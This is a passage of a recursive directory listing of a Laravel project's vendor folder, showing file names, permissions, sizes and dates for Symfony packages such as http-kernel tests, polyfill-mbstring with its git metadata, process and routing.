-rw-r--r--  1 www-data www-data 5.0K Apr  5  2017 AddClassesToCachePassTest.php
-rw-r--r--  1 www-data www-data 3.7K Apr  5  2017 FragmentRendererPassTest.php
-rw-r--r--  1 www-data www-data 1.7K Apr  5  2017 LazyLoadingFragmentHandlerTest.php
-rw-r--r--  1 www-data www-data 2.1K Apr  5  2017 MergeExtensionConfigurationPassTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/EventListener:
total 80K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data 2.3K Apr  5  2017 AddRequestFormatsListenerTest.php
-rw-r--r--  1 www-data www-data 4.5K Apr  5  2017 DebugHandlersListenerTest.php
-rw-r--r--  1 www-data www-data 2.0K Apr  5  2017 DumpListenerTest.php
-rw-r--r--  1 www-data www-data 4.6K Apr  5  2017 ExceptionListenerTest.php
-rw-r--r--  1 www-data www-data 4.4K Apr  5  2017 FragmentListenerTest.php
-rw-r--r--  1 www-data www-data 3.9K Apr  5  2017 LocaleListenerTest.php
-rw-r--r--  1 www-data www-data 2.7K Apr  5  2017 ProfilerListenerTest.php
-rw-r--r--  1 www-data www-data 3.4K Apr  5  2017 ResponseListenerTest.php
-rw-r--r--  1 www-data www-data 6.4K Apr  5  2017 RouterListenerTest.php
-rw-r--r--  1 www-data www-data 2.9K Apr  5  2017 SurrogateListenerTest.php
-rw-r--r--  1 www-data www-data 3.7K Apr  5  2017 TestSessionListenerTest.php
-rw-r--r--  1 www-data www-data 4.1K Apr  5  2017 TranslatorListenerTest.php
-rw-r--r--  1 www-data www-data 1.6K Apr  5  2017 ValidateRequestListenerTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Exception:
total 72K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data  302 Apr  5  2017 AccessDeniedHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  296 Apr  5  2017 BadRequestHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  290 Apr  5  2017 ConflictHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  278 Apr  5  2017 GoneHttpExceptionTest.php
-rw-r--r--  1 www-data www-data 1.3K Apr  5  2017 HttpExceptionTest.php
-rw-r--r--  1 www-data www-data  308 Apr  5  2017 LengthRequiredHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  714 Apr  5  2017 MethodNotAllowedHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  305 Apr  5  2017 NotAcceptableHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  290 Apr  5  2017 NotFoundHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  320 Apr  5  2017 PreconditionFailedHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  326 Apr  5  2017 PreconditionRequiredHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  811 Apr  5  2017 ServiceUnavailableHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  796 Apr  5  2017 TooManyRequestsHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  701 Apr  5  2017 UnauthorizedHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  764 Apr  5  2017 UnprocessableEntityHttpExceptionTest.php
-rw-r--r--  1 www-data www-data  630 Apr  5  2017 UnsupportedMediaTypeHttpExceptionTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures:
total 72K
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 123
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 BaseBundle
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 Bundle1Bundle
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Bundle2Bundle
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 ChildBundle
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Controller
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 DataCollector
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 ExtensionAbsentBundle
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 ExtensionLoadedBundle
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 ExtensionNotValidBundle
drwxr-xr-x  4 www-data www-data 4.0K Apr  5  2017 ExtensionPresentBundle
-rw-r--r--  1 www-data www-data  612 Apr  5  2017 KernelForOverrideName.php
-rw-r--r--  1 www-data www-data  746 Apr  5  2017 KernelForTest.php
drwxr-xr-x  6 www-data www-data 4.0K Apr  5  2017 Resources
-rw-r--r--  1 www-data www-data  795 Apr  5  2017 TestClient.php
-rw-r--r--  1 www-data www-data  696 Apr  5  2017 TestEventDispatcher.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/123:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data  851 Apr  5  2017 Kernel123.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/BaseBundle:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Resources

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/BaseBundle/Resources:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data    0 Apr  5  2017 foo.txt
-rw-r--r-- 1 www-data www-data    0 Apr  5  2017 hide.txt

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/Bundle1Bundle:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Resources
-rw-r--r--  1 www-data www-data    0 Apr  5  2017 bar.txt
-rw-r--r--  1 www-data www-data    0 Apr  5  2017 foo.txt

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/Bundle1Bundle/Resources:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data    0 Apr  5  2017 foo.txt

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/Bundle2Bundle:
total 8.0K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data    0 Apr  5  2017 foo.txt

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/ChildBundle:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Resources

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/ChildBundle/Resources:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data    0 Apr  5  2017 foo.txt
-rw-r--r-- 1 www-data www-data    0 Apr  5  2017 hide.txt

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/Controller:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data  410 Apr  5  2017 BasicTypesController.php
-rw-r--r--  1 www-data www-data  395 Apr  5  2017 ExtendingRequest.php
-rw-r--r--  1 www-data www-data  440 Apr  5  2017 NullableController.php
-rw-r--r--  1 www-data www-data  388 Apr  5  2017 VariadicController.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/DataCollector:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data  951 Apr  5  2017 CloneVarDataCollector.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/ExtensionAbsentBundle:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data  412 Apr  5  2017 ExtensionAbsentBundle.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/ExtensionLoadedBundle:
total 16K
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 DependencyInjection
-rw-r--r--  1 www-data www-data  412 Apr  5  2017 ExtensionLoadedBundle.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/ExtensionLoadedBundle/DependencyInjection:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data  595 Apr  5  2017 ExtensionLoadedExtension.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/ExtensionNotValidBundle:
total 16K
drwxr-xr-x  3 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 DependencyInjection
-rw-r--r--  1 www-data www-data  416 Apr  5  2017 ExtensionNotValidBundle.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/ExtensionNotValidBundle/DependencyInjection:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data  456 Apr  5  2017 ExtensionNotValidExtension.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/ExtensionPresentBundle:
total 20K
drwxr-xr-x  4 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Command
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 DependencyInjection
-rw-r--r--  1 www-data www-data  414 Apr  5  2017 ExtensionPresentBundle.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/ExtensionPresentBundle/Command:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data  412 Apr  5  2017 BarCommand.php
-rw-r--r-- 1 www-data www-data  506 Apr  5  2017 FooCommand.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/ExtensionPresentBundle/DependencyInjection:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data  597 Apr  5  2017 ExtensionPresentExtension.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/Resources:
total 24K
drwxr-xr-x  6 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Apr  5  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 BaseBundle
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 Bundle1Bundle
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 ChildBundle
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 FooBundle

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/Resources/BaseBundle:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data    0 Apr  5  2017 hide.txt

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/Resources/Bundle1Bundle:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data    0 Apr  5  2017 foo.txt

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/Resources/ChildBundle:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data    0 Apr  5  2017 foo.txt

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fixtures/Resources/FooBundle:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r-- 1 www-data www-data    0 Apr  5  2017 foo.txt

/var/www/laravel/vendor/symfony/http-kernel/Tests/Fragment:
total 48K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data 4.4K Apr  5  2017 EsiFragmentRendererTest.php
-rw-r--r--  1 www-data www-data 2.8K Apr  5  2017 FragmentHandlerTest.php
-rw-r--r--  1 www-data www-data 4.2K Apr  5  2017 HIncludeFragmentRendererTest.php
-rw-r--r--  1 www-data www-data  11K Apr  5  2017 InlineFragmentRendererTest.php
-rw-r--r--  1 www-data www-data 3.9K Apr  5  2017 RoutableFragmentRendererTest.php
-rw-r--r--  1 www-data www-data 3.5K Apr  5  2017 SsiFragmentRendererTest.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/HttpCache:
total 116K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data 9.0K Apr  5  2017 EsiTest.php
-rw-r--r--  1 www-data www-data  56K Apr  5  2017 HttpCacheTest.php
-rw-r--r--  1 www-data www-data 5.2K Apr  5  2017 HttpCacheTestCase.php
-rw-r--r--  1 www-data www-data 2.3K Apr  5  2017 ResponseCacheStrategyTest.php
-rw-r--r--  1 www-data www-data 7.4K Apr  5  2017 SsiTest.php
-rw-r--r--  1 www-data www-data  12K Apr  5  2017 StoreTest.php
-rw-r--r--  1 www-data www-data 2.4K Apr  5  2017 TestHttpKernel.php
-rw-r--r--  1 www-data www-data 2.2K Apr  5  2017 TestMultipleHttpKernel.php

/var/www/laravel/vendor/symfony/http-kernel/Tests/Profiler:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Apr  5  2017 .
drwxr-xr-x 17 www-data www-data 4.0K Apr  5  2017 ..
-rw-r--r--  1 www-data www-data  14K Apr  5  2017 FileProfilerStorageTest.php
-rw-r--r--  1 www-data www-data 2.6K Apr  5  2017 ProfilerTest.php

/var/www/laravel/vendor/symfony/polyfill-mbstring:
total 60K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  8 www-data www-data 4.0K Apr  9  2017 .git
-rw-r--r--  1 www-data www-data 1.1K Apr  9  2017 LICENSE
-rw-r--r--  1 www-data www-data  21K Apr  9  2017 Mbstring.php
-rw-r--r--  1 www-data www-data  371 Apr  9  2017 README.md
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 Resources
-rw-r--r--  1 www-data www-data 4.3K Apr  9  2017 bootstrap.php
-rw-r--r--  1 www-data www-data  879 Apr  9  2017 composer.json

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git:
total 60K
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  119 Apr  9  2017 FETCH_HEAD
-rw-r--r-- 1 www-data www-data   41 Apr  9  2017 HEAD
-rw-r--r-- 1 www-data www-data   41 Apr  9  2017 ORIG_HEAD
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 branches
-rw-r--r-- 1 www-data www-data  452 Apr  9  2017 config
-rw-r--r-- 1 www-data www-data   73 Apr  9  2017 description
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 hooks
-rw-r--r-- 1 www-data www-data  707 Apr  9  2017 index
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 info
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 logs
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 objects
-rw-r--r-- 1 www-data www-data  707 Apr  9  2017 packed-refs
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 refs

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/branches:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/hooks:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rwxr-xr-x 1 www-data www-data  478 Apr  9  2017 applypatch-msg.sample
-rwxr-xr-x 1 www-data www-data  896 Apr  9  2017 commit-msg.sample
-rwxr-xr-x 1 www-data www-data  189 Apr  9  2017 post-update.sample
-rwxr-xr-x 1 www-data www-data  424 Apr  9  2017 pre-applypatch.sample
-rwxr-xr-x 1 www-data www-data 1.7K Apr  9  2017 pre-commit.sample
-rwxr-xr-x 1 www-data www-data 1.4K Apr  9  2017 pre-push.sample
-rwxr-xr-x 1 www-data www-data 4.8K Apr  9  2017 pre-rebase.sample
-rwxr-xr-x 1 www-data www-data 1.3K Apr  9  2017 prepare-commit-msg.sample
-rwxr-xr-x 1 www-data www-data 3.6K Apr  9  2017 update.sample

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/info:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  240 Apr  9  2017 exclude
-rw-r--r-- 1 www-data www-data  907 Apr  9  2017 refs

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/logs:
total 16K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  364 Apr  9  2017 HEAD
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 refs

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/logs/refs:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 heads
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 remotes

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/logs/refs/heads:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  193 Apr  9  2017 master

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/logs/refs/remotes:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 composer
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 origin

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/logs/refs/remotes/composer:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  161 Apr  9  2017 master

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/logs/refs/remotes/origin:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  193 Apr  9  2017 HEAD

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/objects:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 info
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 pack

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/objects/info:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   54 Apr  9  2017 packs

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/objects/pack:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-r--r--r-- 1 www-data www-data 3.0K Apr  9  2017 pack-530fe09a8d8c01bad293d1f4f4e120c16b107f94.idx
-r--r--r-- 1 www-data www-data  35K Apr  9  2017 pack-530fe09a8d8c01bad293d1f4f4e120c16b107f94.pack

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/refs:
total 20K
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 heads
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 remotes
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 tags

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/refs/heads:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   41 Apr  9  2017 master

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/refs/remotes:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 composer
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 origin

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/refs/remotes/composer:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   41 Apr  9  2017 master

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/refs/remotes/origin:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   32 Apr  9  2017 HEAD

/var/www/laravel/vendor/symfony/polyfill-mbstring/.git/refs/tags:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..

/var/www/laravel/vendor/symfony/polyfill-mbstring/Resources:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 unidata

/var/www/laravel/vendor/symfony/polyfill-mbstring/Resources/unidata:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  19K Apr  9  2017 lowerCase.php
-rw-r--r-- 1 www-data www-data  19K Apr  9  2017 upperCase.php

/var/www/laravel/vendor/symfony/process:
total 124K
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   34 Mar 27  2017 .gitignore
-rw-r--r--  1 www-data www-data 1.1K Mar 27  2017 CHANGELOG.md
drwxr-xr-x  2 www-data www-data 4.0K Mar 27  2017 Exception
-rw-r--r--  1 www-data www-data 2.6K Mar 27  2017 ExecutableFinder.php
-rw-r--r--  1 www-data www-data 2.2K Mar 27  2017 InputStream.php
-rw-r--r--  1 www-data www-data 1.1K Mar 27  2017 LICENSE
-rw-r--r--  1 www-data www-data 2.3K Mar 27  2017 PhpExecutableFinder.php
-rw-r--r--  1 www-data www-data 2.4K Mar 27  2017 PhpProcess.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 27  2017 Pipes
-rw-r--r--  1 www-data www-data  49K Mar 27  2017 Process.php
-rw-r--r--  1 www-data www-data 6.3K Mar 27  2017 ProcessBuilder.php
-rw-r--r--  1 www-data www-data 3.6K Mar 27  2017 ProcessUtils.php
-rw-r--r--  1 www-data www-data  477 Mar 27  2017 README.md
drwxr-xr-x  2 www-data www-data 4.0K Mar 27  2017 Tests
-rw-r--r--  1 www-data www-data  758 Mar 27  2017 composer.json
-rw-r--r--  1 www-data www-data  776 Mar 27  2017 phpunit.xml.dist

/var/www/laravel/vendor/symfony/process/Exception:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Mar 27  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  431 Mar 27  2017 ExceptionInterface.php
-rw-r--r-- 1 www-data www-data  496 Mar 27  2017 InvalidArgumentException.php
-rw-r--r-- 1 www-data www-data  466 Mar 27  2017 LogicException.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 27  2017 ProcessFailedException.php
-rw-r--r-- 1 www-data www-data 1.7K Mar 27  2017 ProcessTimedOutException.php
-rw-r--r-- 1 www-data www-data  481 Mar 27  2017 RuntimeException.php

/var/www/laravel/vendor/symfony/process/Pipes:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Mar 27  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 4.8K Mar 27  2017 AbstractPipes.php
-rw-r--r-- 1 www-data www-data 1.5K Mar 27  2017 PipesInterface.php
-rw-r--r-- 1 www-data www-data 3.6K Mar 27  2017 UnixPipes.php
-rw-r--r-- 1 www-data www-data 5.6K Mar 27  2017 WindowsPipes.php

/var/www/laravel/vendor/symfony/process/Tests:
total 100K
drwxr-xr-x 2 www-data www-data 4.0K Mar 27  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 3.6K Mar 27  2017 ExecutableFinderTest.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 27  2017 NonStopableProcess.php
-rw-r--r-- 1 www-data www-data 2.2K Mar 27  2017 PhpExecutableFinderTest.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 27  2017 PhpProcessTest.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 27  2017 PipeStdinInStdoutStdErrStreamSelect.php
-rw-r--r-- 1 www-data www-data 6.3K Mar 27  2017 ProcessBuilderTest.php
-rw-r--r-- 1 www-data www-data 4.8K Mar 27  2017 ProcessFailedExceptionTest.php
-rw-r--r-- 1 www-data www-data  48K Mar 27  2017 ProcessTest.php
-rw-r--r-- 1 www-data www-data 1.5K Mar 27  2017 ProcessUtilsTest.php
-rw-r--r-- 1 www-data www-data  398 Mar 27  2017 SignalListener.php

/var/www/laravel/vendor/symfony/routing:
total 160K
drwxr-xr-x  8 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   34 Mar  2  2017 .gitignore
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Annotation
-rw-r--r--  1 www-data www-data 8.5K Mar  2  2017 CHANGELOG.md
-rw-r--r--  1 www-data www-data 4.2K Mar  2  2017 CompiledRoute.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Exception
drwxr-xr-x  3 www-data www-data 4.0K Mar  2  2017 Generator
-rw-r--r--  1 www-data www-data 1.1K Mar  2  2017 LICENSE
drwxr-xr-x  4 www-data www-data 4.0K Mar  2  2017 Loader
drwxr-xr-x  3 www-data www-data 4.0K Mar  2  2017 Matcher
-rw-r--r--  1 www-data www-data  505 Mar  2  2017 README.md
-rw-r--r--  1 www-data www-data 7.2K Mar  2  2017 RequestContext.php
-rw-r--r--  1 www-data www-data  615 Mar  2  2017 RequestContextAwareInterface.php
-rw-r--r--  1 www-data www-data  14K Mar  2  2017 Route.php
-rw-r--r--  1 www-data www-data 7.2K Mar  2  2017 RouteCollection.php
-rw-r--r--  1 www-data www-data 9.4K Mar  2  2017 RouteCollectionBuilder.php
-rw-r--r--  1 www-data www-data  14K Mar  2  2017 RouteCompiler.php
-rw-r--r--  1 www-data www-data  830 Mar  2  2017 RouteCompilerInterface.php
-rw-r--r--  1 www-data www-data  13K Mar  2  2017 Router.php
-rw-r--r--  1 www-data www-data  901 Mar  2  2017 RouterInterface.php
drwxr-xr-x  7 www-data www-data 4.0K Mar  2  2017 Tests
-rw-r--r--  1 www-data www-data 1.6K Mar  2  2017 composer.json
